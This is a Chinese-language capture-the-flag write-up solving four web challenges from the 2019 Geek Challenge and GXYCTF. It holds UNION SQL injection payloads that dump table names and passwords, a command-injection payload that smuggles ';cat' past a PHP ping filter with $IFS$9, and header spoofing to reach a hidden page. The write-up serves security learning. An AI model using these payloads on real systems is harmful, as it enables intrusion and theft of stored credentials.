 # 2021/07/02

## LoveSQL

> 极客大挑战 2019

### 题目

从名字就可以看出来，SQL注入的题，进来是个登录页面，随便输一下，Get请求发送`username`和`password`两个参数，从`password`下手试一下万能密码，竟然登录进去了，看起来是要在库里面找东西，还有回显的`username`和`password`，直接注入，比较简单

### payload

```
?username=1&password=1' union select 1,2,'3

?username=1&password=1' union select 1,database(),'3 // return geek

?username=1&password=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='geek'),'3 //return l0ve1ysq1

?username=1&password=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'),'3 //return id,username,password

?username=1&password=1' union select 1,(select group_concat(password) from l0ve1ysq1),'3 // return flag
```

## Ping Ping Ping

> GXYCTF 2019

### 题目

还是个ping命令的题，直接上`;ls`，回显出两个文件，直接`cat`读取，被拦截了（），试试绕过，发现很多符号也被过滤了，用命令执行的绕过`$IFS$9`来绕过空格，显示出源码，发现`flag`被正则表达式包住了，这里采用拼接的形式进行绕过

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

### payload

```
?ip=;a=g;cat$IFS$9fla$a.php
```

## Knife

> 极客大挑战 2019

### 题目

题目没啥好说的，直接**蚁剑/菜刀**连就行了

### payload

## Http

> 极客大挑战 2019

### 题目

Burp搜索站点，可以发现一个隐藏页面`Secret.php`，访问发现返回`It doesn't come from 'https://www.Sycsecret.com'`，那就添加`Referer`，发现又返回`Please use "Syclover" browser`，改`User-Agent`，发现又返回`No!!! you can only read this locally!!!`，添加`X-Forwarded-For:127.0.0.1`，拿到`flag`

### payload

```http
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:28969
Referer:https://www.Sycsecret.com
X-Forwarded-For:127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a52dafb251c-0133abcdf6c6a9-6373264-384000-17a52dafb261436
Connection: close
```
